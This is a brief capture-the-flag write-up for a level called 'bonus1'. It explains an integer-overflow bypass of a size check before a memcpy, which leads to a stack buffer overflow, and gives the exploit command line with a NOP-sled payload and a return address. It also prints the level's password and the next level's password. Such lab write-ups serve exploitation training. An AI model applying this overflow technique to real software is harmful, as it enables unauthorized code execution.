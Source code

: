# Bonus 1
*password : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9*

## Analyze
```
$ scp -P 4242 bonus1@192.168.56.108:bonus1 binary/
```
```
char *dest[40];
...
memcpy(dest,*(undefined4 *)(**av + 8),nb * 4);
```

## Buffer overflow : memcpy expoit

- nb must be < 10
- compute offset : 8 * 2 + 40 = 56
- we want : (unsigned int)(nb * 4) = 60

unsigned int MAX = 4294967296

(unsigned int)-4294967296 = 0\
(unsigned int)(-1073741824 * 4) = 0\
(unsigned int)((-1073741824 + x / 4)* 4) = x

so for x = 60 :\
(unsigned int)((-1073741824 + 15)* 4) = 60\
(unsigned int)(-1073741809 * 4) = 60\
`nb  = -1073741809`

```
$ /tmp/a.out
0xbffff83f
$ ./bonus1 -1073741809 $(python -c 'print "\x90" * 56 + "\x3f\xf8\xff\xbf"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
